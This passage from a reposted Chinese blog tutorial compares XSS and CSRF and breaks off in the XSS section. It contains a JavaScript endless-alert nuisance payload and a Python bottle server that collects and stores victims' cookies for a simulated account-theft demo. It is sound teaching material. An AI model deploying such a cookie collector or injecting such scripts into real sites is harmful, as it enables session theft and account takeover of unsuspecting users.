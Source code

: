 # 总结 XSS 与 CSRF 两种跨站攻击

转自：https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/

> XSS：跨站脚本（Cross-site scripting）
> 
> CSRF：跨站请求伪造（Cross-site request forgery）

在那个年代，大家一般用拼接字符串的方式来构造动态 SQL 语句创建应用，于是 SQL 注入成了很流行的攻击方式。在这个年代， [参数化查询](http://zh.wikipedia.org/wiki/%E5%8F%82%E6%95%B0%E5%8C%96%E6%9F%A5%E8%AF%A2 "维基百科的“参数化查询”词条") 已经成了普遍用法，我们已经离 SQL 注入很远了。但是，历史同样悠久的 XSS 和 CSRF 却没有远离我们。由于之前已经对 XSS 很熟悉了，所以我对用户输入的数据一直非常小心。如果输入的时候没有经过 Tidy 之类的过滤，我一定会在模板输出时候全部转义。所以个人感觉，要避免 XSS 也是很容易的，重点是要 “小心”。但最近又听说了另一种跨站攻击 CSRF ，于是找了些资料了解了一下，并与 XSS 放在一起做个比较。

### XSS：脚本中的不速之客

XSS 全称 “跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论，提交含有 JavaScript 的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

运行预期之外的脚本带来的后果有很多中，可能只是简单的恶作剧——一个关不掉的窗口：

```javascript
while (true) {
    alert("你关不掉我~");
}

```


 

也可以是盗号或者其他未授权的操作——我们来模拟一下这个过程，先建立一个用来收集信息的服务器：

 

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
"""
跨站脚本注入的信息收集服务器
"""
import bottle
app = bottle.Bottle()
plugin = bottle.ext.sqlite.Plugin(dbfile='/var/db/myxss.sqlite')
app.install(plugin)
@app.route('/myxss/')
def show(cookies, db):
    SQL = 'INSERT INTO "myxss" ("cookies") VALUES (?)'
    try:
        db.execute(SQL, cookies)
    except:
        pass
    return ""
if __name__ == "__main__":
    app.run()

```
